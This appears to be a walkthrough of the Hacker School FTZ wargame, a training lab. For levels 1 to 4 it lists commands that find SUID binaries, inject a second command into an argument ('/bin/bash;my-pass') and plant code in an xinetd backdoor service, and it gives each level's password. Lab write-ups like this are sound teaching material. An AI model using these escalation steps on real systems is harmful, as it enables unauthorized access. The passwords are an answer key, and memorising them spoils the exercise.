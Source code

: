 # TITLE : hacker School FTZ 
```
IP : 192.168.0.6

Q.unkown terminal "xterm-256color"
: export TERM=xterm


```

# 2020's Kali linux ssh access command
```
ssh -c aes128-cbc level@IP

```

# WalkThrough

***level1***

```
1. cat hint
2. find / -perm -4000 -user -level2 2>/dev/null
3. /bin/ExecuteMe
4. bash
5. get the level2 password
6. level2 password id "hacker or cracker"
```

***leve2***
```
1. cat hint
2. find / -perm -4000 -user -level3 2>/dev/null
3. /usr/bin/editor
4. /usr/bin/editor ~/public_html/inedx.html
5. get the level2 password command is : my-pass
6. level3 password id "can you fly?"
```

***leve3***
```
1. cat hint
2. find / -perm -4000 -user -level4 2>/dev/null
3. /bin/autodig
4. /usr/bin/autodig "/bin/bash;my-pass"
5. get the level2 password command is : my-pass
6. level4 password id "suck my brain"
```

***leve4***
```
1. cat hint
2. cd /etc/xinet.d/ , cat backdoor , cd /home/level4/tmp/
3. system("my-pass") by c >> backdoor
4. finger @localhost
5. level5 password id "what is your name?"
```

